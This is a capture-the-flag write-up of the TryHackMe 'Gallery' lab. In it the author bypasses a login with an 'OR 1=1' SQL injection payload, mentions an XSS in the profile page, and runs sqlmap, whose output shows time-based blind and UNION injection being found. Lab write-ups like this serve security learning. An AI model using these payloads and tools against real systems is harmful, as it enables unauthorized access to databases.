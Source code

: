 Theres a lot more going on Port 8080. Allthough checking all the directories I couldnt find anything useful.

Looking at the login page, I tried to use some common credentials but none of them where valid. After a bit of trial and error, I tested the username field for SQLi and used the most common payload:

```sql
'OR 1=1;-- -
```

we're in!

Firs thing we see is this "Simple Image Gallery System".

2. What's the name of the CMS?
	Simple Image Gallery

Heading over to the User (clicking on the Profile Picture) I found out that we can inject js code (XSS). I DO NOT RECOMMEND IT !!!! I completely destroyed the web page by accident adding that xss... :(
after a minute or so i restarted the machine and got back into it. now i wanted to focus more on the SQLi since we saw it is vulnerable to it.

Intercepting the request with burp and changing the username to * so sqlmap knows i want to target the username field.

![[Gallery_BurpRequest.png]]

After saving the request to a file i ran it with sqlmap to see if it can find something.

```bash

┌──(kali㉿kali)-[~/CTFs/TryHackmeCTFs/Gallery]
└─$ sqlmap -r sql.txt --dbs --batch                                
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.11#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:09:56 /2023-03-10/

[16:09:56] [INFO] parsing HTTP request from 'sql.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[16:09:56] [INFO] testing connection to the target URL
[16:09:56] [INFO] checking if the target is protected by some kind of WAF/IPS
[16:09:56] [INFO] testing if the target URL content is stable
[16:09:57] [INFO] target URL content is stable
[16:09:57] [INFO] testing if (custom) POST parameter '#1*' is dynamic
[16:09:57] [WARNING] (custom) POST parameter '#1*' does not appear to be dynamic
...

[16:10:11] [INFO] (custom) POST parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[16:10:11] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[16:10:11] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[16:10:13] [INFO] target URL appears to be UNION injectable with 10 columns
```